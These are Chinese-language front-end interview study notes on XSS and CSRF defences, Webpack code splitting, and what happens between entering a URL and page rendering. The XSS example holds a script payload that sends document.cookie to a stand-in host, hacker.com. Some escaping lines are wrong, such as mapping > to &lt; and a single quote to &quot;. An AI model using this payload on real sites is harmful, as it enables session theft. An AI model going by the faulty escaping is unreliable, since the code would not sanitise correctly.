 安全押题

### 什么是 XSS 攻击？如何预防？
* 举例
  * div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
  * // 恶意就被执行了，这就是 XSS
* 预防
* 不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
* 如果你一样要用 innerHTML，字符过滤
* 把 < 替换成 `&lt;`
* 把 > 替换成 `&gt;`
* 把 & 替换成 `&amp;`
* 把 ' 替换成 `&#39;`
* 把 ' 替换成 `&quot;`
* 代码 div.innerHTML = userComment.replace(/>/g, '&lt;').replace...
* 使用 CSP Content Security Policy
### 什么是 CSRF 攻击？如何预防？
过程
* 用户在 qq.com 登录
* 用户切换到 hacker.com（恶意网站）
* hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
* 用户在不知不觉中添加 hacker 为好友。
* 用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
* 避免
* 检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
* csrf_token 来解决
Webpack 题

## 转译出的文件过大怎么办？
使用 code split
写法 import('xxx').then(xxx=>{console.log(xxx)})
xxx 模块就是按需加载的
## 转译速度慢什么办？
方方不会。
## 写过 webpack loader 吗？
http://www.alloyteam.com/2016/01/webpack-loader-1/
发散题

从输入 URL 到页面展现中间发生了什么？
* DNS 查询 DNS 缓存
* 建立 TCP 连接（三次握手）连接复用
* 发送 HTTP 请求（请求的四部分）
* 后台处理请求
* 监听 80 端口
* 路由
* 渲染 HTML 模板
* 生成响应
* 发送 HTTP 响应
* 关闭 TCP 连接（四次挥手）
* 解析 HTML
* 下载 CSS（缓存
* 解析 CSS
* 下载 JS（缓存
* 解析 JS
* 下载图片
* 解析图片
* 渲染 DOM 树
* 渲染样式树
* 执行 JS